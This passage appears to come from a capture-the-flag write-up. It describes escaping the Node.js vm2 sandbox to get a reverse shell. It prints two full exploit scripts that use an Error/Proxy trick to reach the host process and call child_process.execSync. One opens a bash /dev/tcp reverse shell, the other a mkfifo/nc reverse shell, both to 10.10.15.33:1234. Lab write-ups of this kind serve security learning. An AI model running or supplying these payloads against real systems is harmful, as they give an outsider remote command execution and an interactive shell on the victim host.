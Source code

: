 We can surely modify this script to get a reverse shell. However, it can be tricky because code execution is sandboxed and restricted.

My first attempt at getting the reverse shell went as follows: 

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -c "bash -i >& /dev/tcp/10.10.15.33/1234 0>&1"").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

Which did't work. I messed around with different reverse shells, until I tried the following code:

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.33 1234 >/tmp/f").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```
